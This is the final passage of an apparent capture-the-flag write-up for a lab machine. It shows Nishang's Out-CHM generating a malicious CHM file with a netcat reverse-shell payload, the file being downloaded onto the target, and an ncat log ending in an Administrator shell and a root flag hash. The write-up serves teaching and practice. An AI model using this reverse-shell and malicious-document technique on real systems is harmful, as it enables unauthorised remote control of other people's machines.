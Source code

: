Googling help me to find [Nishang Out-CHM](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1) tool that can generate malicious payload. I should be able to get `RCE` as the administrator with the malicious `chm` file.
After installing the `HTML Help Workshop` on my Windows machine, I generated a malicious CHM file tat uses netcat to spawn a reverse shell.
```powershell
Out-CHM -Payload "C:\tmp\nc.exe -e powershell 10.10.14.40 1234" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
```
Uploaded it to the server:
```powershell
PS C:\Docs> iwr -uri http://10.10.14.40/doc.chm -outfile doc.chm
```
After few seconds we get a reverse shell back and we got a shell as `Administrator`.

```
sudo rlwrap ncat -lnvp 1234

Ncat: Version 7.60 ( https://nmap.org/ncat )
Ncat: Generating a temporary 1024-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: 75B8 EB11 CE1D 7EFE DFF4 26A0 F62B A1BA C13A 6032
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.10.151.
Ncat: Connection from 10.10.10.151:49726.
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
sniper\administrator

PS C:\users\administrator\desktop> gc root.txt
5624caf363e2750e994f6be0b7436c15
```
Thank you for taking you're time for reading this blog!.